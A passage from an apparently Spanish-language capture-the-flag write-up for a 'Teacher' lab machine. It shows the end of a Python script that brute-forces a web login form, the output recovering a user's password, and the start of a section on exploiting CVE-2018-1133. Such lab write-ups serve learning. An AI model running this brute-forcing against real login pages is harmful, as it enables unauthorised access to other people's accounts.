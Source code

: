 ```python
		}

		r1 = s.post(url,data=data,proxies=proxies)

		p1.status(str(data))

		if "Invalid login, please try again" in r1.text:

			pass
		else:
			print ("Password Encontrada: ",str(data))
			break

def handler(sig,frame):

	print ("\n[!] Saliendo...")
	sys.exit(1)

signal.signal(signal.SIGINT, handler)


if __name__ == '__main__':
	bruteforcer()
```

Si lo ejecutamos y esperamos un rato podemos ver que nos saca la password del usuario.

```bash
❯ python3 exploit.py
[*] Inciando Fuerza Bruta: : {'anchor': '', 'username': 'Giovanni', 'password': 'Th4C00lTheacha&'}
Password Encontrada:  {'anchor': '', 'username': 'Giovanni', 'password': 'Th4C00lTheacha#'}
```


### Exploiting CVE-2018-1133

Iniciamos sesión para validar los datos anteriores, una vez iniciamos sesión podemos ver lo siguiente:

![](/assets/images/Teacher/img4.png)
